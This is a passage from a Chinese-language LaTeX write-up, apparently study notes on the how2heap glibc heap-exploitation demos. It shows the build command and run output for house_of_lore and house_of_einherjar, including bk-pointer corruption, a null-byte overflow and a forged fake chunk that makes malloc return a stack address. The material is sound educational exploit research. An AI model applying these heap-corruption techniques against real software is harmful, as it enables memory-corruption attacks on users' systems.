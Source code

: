 接着编译后再运行，利用依然可以成功：
\begin{verbatim}
root in ~/how2heap-g227 at iZwz9eo57jnmoquu8r2fg0Z took 7m 53s 
$ gcc -g -L/root/tmpwork/g227/lib -Wl,--rpath=/root/tmpwork/g227/lib -Wl,--dynamic-linker=/root/tmpwork/g227/lib/ld-linux-x86-64.so.2 house_of_lore.c -o house_of_lore_tcache_b

root in ~/how2heap-g227 at iZwz9eo57jnmoquu8r2fg0Z 
$ ./house_of_lore_tcache_b
Allocated the victim (small) chunk: 0x230d260
stack_buffer_1: 0x7ffeccacf810
stack_buffer_2: 0x7ffeccacf830

Freeing the victim chunk 0x230d260, it will be inserted in the unsorted bin
victim->fd: 0x7f5adfe2fca0
victim->bk: 0x7f5adfe2fca0

Malloc a chunk that can't be handled by the unsorted bin, nor the SmallBin: 0x230d700
The victim chunk 0x230d260 will be inserted in front of the SmallBin
victim->fd: 0x7f5adfe2fd20
victim->bk: 0x7f5adfe2fd20

Now emulating a vulnerability that can overwrite the victim->bk pointer
This last malloc should return a chunk at the position injected in bin->bk: 0x7ffeccacf820
The fd pointer of stack_buffer_2 has changed: 0x7ffeccacf820

Nice jump d00d
\end{verbatim}

\subsection{house\_of\_einherjar}

编译后运行，\verb+ house_of_einherjar+完全不受影响：
\begin{verbatim}
$ ./house_of_einherjar 
We allocate 0x10 bytes for 'a': 0x16b9260

Our fake chunk at 0x7ffce41a2ae0 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffce41a2ae0
bck: 0x7ffce41a2ae0
fwd_nextsize: 0x7ffce41a2ae0
bck_nextsize: 0x7ffce41a2ae0

We allocate 0xf8 bytes for 'b': 0x16b9280
b.size: 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

We write a fake prev_size to the last 8 bytes of a 
so that it will consolidate with our fake chunk
Our fake prev_size will be 0x16b9270 - 0x7ffce41a2ae0 = 0xffff80031d516790

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffff80031d516790 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x16b9380
\end{verbatim}

